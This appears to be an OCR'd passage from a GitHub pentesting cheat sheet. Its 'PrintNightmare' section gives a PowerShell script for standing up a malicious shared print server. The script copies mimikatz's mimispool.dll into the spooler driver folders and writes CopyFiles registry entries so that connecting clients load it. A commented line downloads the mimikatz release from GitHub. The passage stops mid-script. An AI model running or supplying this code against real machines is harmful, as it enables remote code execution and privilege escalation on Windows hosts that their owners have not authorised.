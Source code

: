 ### From a Windows Machine

* <details><summary>PrintNightmare (Click to expand)</summary><p>
	* 

## Print Nightmare
---
#### Install Server:

```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
```
 
```
#Invoke-WebRequest -Uri 'https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip' -OutFile '.\mimikatz_trunk.zip'
#Expand-Archive -Force -Path '.\mimikatz_trunk.zip' -DestinationPath '.\mimikatz_trunk'

 

Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')

 

Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared

 

New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null

 

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

 

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

 

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
```